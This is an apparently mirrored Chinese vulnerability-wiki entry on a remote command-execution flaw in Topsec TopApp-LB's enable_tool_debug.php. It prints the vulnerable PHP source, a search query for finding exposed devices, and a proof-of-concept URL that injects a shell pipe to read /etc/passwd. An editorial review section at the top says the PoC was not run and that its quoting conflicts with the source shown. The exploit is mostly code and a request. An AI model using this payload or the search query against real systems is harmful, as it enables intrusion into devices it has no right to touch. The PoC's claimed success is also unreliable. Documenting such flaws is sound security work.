

# 天融信 TopApp-LB enable_tool_debug.php 远程命令执行漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Topsec TopApp-LB / TopSec-LB名称混用
- 本文讨论：enable_tool_debug.php par拼接exec
- 版本、权限与配置前提：val0/tool1；版本与鉴权不明
- 资料类型：命令注入源码与请求；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 所示exec直接拼ping加par，但PoC将管道命令包在成对单引号内，按展示源码会变普通参数，内部证据不一致
- 说明var=0实际字段val=0；产品名TopSec/TopApp混用
- include鉴权未展示，无修复版本
- 已落实的文本修订：“这里设置 var=0”改为“这里设置 val=0”。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证
- 普通成对单引号会使 | 等字符成为 ping 参数，所展示 URL 不能由这段源码直接推出注入成功。保留这份失效/待核样例，不为其改造注入载荷。

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 是否有额外引号包裹/URL解析、认证和产品版本需核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

天融信 TopSec-LB enable_tool_debug.php文件存在 远程命令执行漏洞，通过命令拼接攻击者可以执行任意命令

## 漏洞影响

```
天融信 TopSec-LB
```

## 网络测绘

```
app="天融信-TopApp-LB-负载均衡系统"
```

## 漏洞复现

登录页面如下


漏洞文件为 **enable_tool_debug.php**


```php
<?php
require_once dirname(__FILE__)."/../common/commandWrapper.inc";
error_reporting(E_ALL ^ E_WARNING ^ E_NOTICE);
$val = $_GET['val'];
$tool = $_GET['tool'];
$par = $_GET['par'];
runTool($val,$tool,$par);
?>
```


**commandWrapper.inc** 文件中的 **runTool**


```php
function runTool($val,$tool,$par){
	if($val=="0"){
		UciUtil::setValue('system', 'runtool', 'tool', $tool);
		UciUtil::setValue('system', 'runtool', 'parameter', $par);
		UciUtil::commit('system');
		if($tool=="1"){
			exec('ping '.$par.'>/tmp/tool_result &');
		}else if($tool=="2"){
			exec('traceroute '.$par.'>/tmp/tool_result &');
		}
	}else if($val=="1"){
		$tool=UciUtil::getValue('system', 'runtool', 'tool');
		if($tool=="1"){
			exec('killall ping ');
		}else if($tool=="2"){
			exec('killall traceroute ');
		}
		UciUtil::setValue('system', 'runtool', 'tool', '');
		UciUtil::setValue('system', 'runtool', 'parameter', '');
		UciUtil::commit('system');
		exec('echo "">/tmp/tool_result');
	}
	
}
```


这里设置 val=0，tool=1，再进行命令拼接造成远程命令执行


```plain
/acc/tools/enable_tool_debug.php?val=0&tool=1&par=127.0.0.1' | cat /etc/passwd > ../../test.txt |'
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
